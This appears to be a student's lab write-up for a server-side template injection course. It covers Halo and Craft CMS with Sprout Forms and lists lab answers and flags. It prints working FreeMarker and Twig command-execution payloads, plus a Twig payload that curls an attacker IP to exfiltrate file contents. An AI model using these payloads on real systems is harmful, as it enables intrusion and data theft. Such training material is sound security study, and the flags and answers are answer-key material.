

# **SSTI Case Study**

## **Halo - Case Study**

### **Accessing Halo**
#### **Labs**
1. Start the Halo VM and verify you can access the application. What is the date on the "Hello Halo" message?

Answer - 2021-07-08


### **Halo - Exploitation**
#### **Labs**
1.  Extract the flag out of /root/flag.txt.

Answer - OS{DubiozaKolektiv}

- Add below payload to 404.ftl file and save it.
```
${"freemarker.template.utility.Execute"?new()("cat /root/flag.txt")}
```


- Send a curl request to a 404 endpoint and the flag can be be found at the end.
```
curl -L http://192.168.158.105/DoesNotExist -i
```



## **Craft CMS with Sprout Forms - Case Study**

### **Accessing Craft CMS**
#### **Labs**
1. Start the Craft CMS VM and verify you can access the application. What is the value of the X-Powered-By header?

Answer - Craft CMS


### **Craft CMS with Sprout Forms - Exploitation**
#### **Labs**
1. Extract the flag out of /flag.txt.

Answer - OS{SvezeAmputiranaRukaSatrijanija}

- Run go buster so see all the endpoints.
```
gobuster dir --wordlist /usr/share/wordlists/dirb/common.txt --url http://craft/
```

- Set up python http server to catch the response.

```
python3 -m http.server 80
```

- Copy below payload and submit in the application.

```

{{[0]|reduce('system','cat /flag.txt')}}



{{[0]|reduce('system','curl http://192.168.45.245/?exfil=' ~ exfil)}}
```


- Then we receive a log in our HTTP server with the contents of the flag.txt.


- Decode it as URL using Burpsuite decoder.
Now you can see the flag.


